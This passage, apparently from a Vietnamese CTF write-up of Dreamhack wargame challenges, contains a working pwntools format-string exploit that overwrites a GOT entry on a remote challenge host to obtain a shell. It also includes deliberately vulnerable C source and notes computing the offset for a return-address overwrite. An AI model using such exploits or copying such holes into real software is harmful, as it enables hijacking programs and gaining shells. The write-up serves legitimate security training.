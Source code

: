 ```python=

from pwn import *

exe = ELF('./basic_exploitation_002', checksec = False)

#p = process(exe.path)
p = remote('host1.dreamhack.games', 10966)

get_shell = 0x8048609

payload = p32(exe.got['exit'])
payload += f'%{(get_shell - 4) & 0xffff}c%1$hn'.encode()

input()
p.sendline(payload)

p.interactive()
```
# [basic_exploitation_003](https://dreamhack.io/wargame/challenges/5)
## Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```
- Chương trình có hàm `get_shell()` gọi `system("/bin/sh")`, nên mục tiêu là thực thi hàm này để chiếm shell
- Chương trình cho nhập vào 0x80 byte vào một vùng nhớ heap 
- Sau đó in nội dung vừa nhập vào stack bằng lệnh ` sprintf(stack_buf, heap_buf);`, lệnh này sẽ in nội dung như `printf` vào `stack_buf` nên có lỗi format string 
- Ta sẽ dùng `%n` để in ra số ký tự vào `stack_buf` và ghi đè địa chỉ trả về 
![image](https://hackmd.io/_uploads/S1RMMgfY0.png)
- `stack_buf` được lưu ở `ebp-0x98` nên cần 0x98+4(ebp) = 156 byte để ghi đè địa chỉ trả về
## Script
```python=
```
